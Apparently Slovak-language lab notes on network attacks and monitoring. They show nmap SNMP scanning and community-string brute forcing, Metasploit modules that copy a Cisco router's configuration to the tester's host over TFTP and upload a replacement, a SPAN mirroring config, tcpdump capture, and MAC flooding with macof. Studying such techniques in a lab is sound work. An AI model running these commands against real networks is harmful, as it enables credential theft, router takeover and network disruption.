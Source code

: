 ```bash
nmap -sU -p 2,161 --reason 10.0.0.0/24
locate .nse | grep snmp
nmap -sU -p 2,161 --reason 10.0.0.160 --script /usr/share/nmap/scripts/snmp-brute.nse
```

### "zaloha" cisco konfiguracie

```bash
msfconsole
use auxiliary/scanner/snmp/cisco_config_tftp
options
set rhosts 10.0.0.160 # adresa routru
set lhost 10.0.0.170 # moja adresa
set community secret
set outputdir /tmp
run

use auxiliary/scanner/snmp/cisco_upload_file
set source startup
# ...
# snmp set na reboot aby sa aplikoval startup script
```

# SPAN

SPAN (Switch Port Analyze Network)=Mirror

cisco config:

```
monitor session 1 source vlan 10
monitor session 1 destination g0/0/3
```
source=koho sledujeme
destination=IDS

## zachytavanie trafficu

```
tcpdump -i eth1 -v -e -n ip host 10.0.0.20 and ip host 10.0.0.40 and icmp
```

-v = verbose  
-e = zobrazit ethernet hlavicky (SMAC,DMAC)  
-n = nechat ip adresy a porty v ciselnom formate

# MAC flooding

zahltenie tabulky mac zaznamov na switchi, aby zahodil zaznamy realnych pocitacov a spraval sa ako hub
`macof -i eth1`
